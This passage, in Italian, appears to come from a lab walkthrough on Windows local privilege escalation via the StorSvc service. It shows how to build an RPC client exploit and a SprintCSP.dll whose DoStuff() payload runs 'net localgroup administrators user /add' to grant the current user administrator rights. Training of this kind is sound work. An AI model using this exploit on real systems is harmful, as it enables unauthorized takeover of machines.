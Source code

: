 ```c
#if defined(_M_AMD64)

//#define WIN10
//#define WIN11
#define WIN2019
//#define WIN2022

...
```

Questo imposterà l'exploit per usare il corretto identificatore di interfaccia RPC per Windows 2019. 

Ora che il codice è stato corretto, apriamo un prompt dei comandi per sviluppatori usando il collegamento sul desktop. Compileremo il progetto eseguendo i seguenti comandi:

Prompt dei comandi

```shell-session
cd C:\tools\LPE via StorSvc\RpcClient\

msbuild RpcClient.sln 

move x64\Debug\RpcClient.exe C:\Users\user\Desktop\
```

L'eseguibile compilato sarà disponibile sul desktop.

Ora per compilare **SprintCSP. dll** , dobbiamo solo modificare la `DoStuff()`funzione on  `C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c`in modo che esegua un comando che ci garantisca l'accesso privilegiato alla macchina. Per semplicità, faremo in modo che la DLL aggiunga il nostro utente corrente al gruppo **Administrators** . Ecco il codice con il nostro comando sostituito:

```c
void DoStuff() {

    // Replace all this code by your payload
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
        NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return;
}
```

Ora compiliamo la DLL e spostiamo il risultato sul nostro desktop:

Prompt dei comandi

```shell-session
cd C:\tools\LPE via StorSvc\SprintCSP\

msbuild SprintCSP.sln
... some output ommitted ...

Build succeeded.
    6 Warning(s)
    0 Error(s)

move x64\Debug\SprintCSP.dll C:\Users\user\Desktop\ 
```
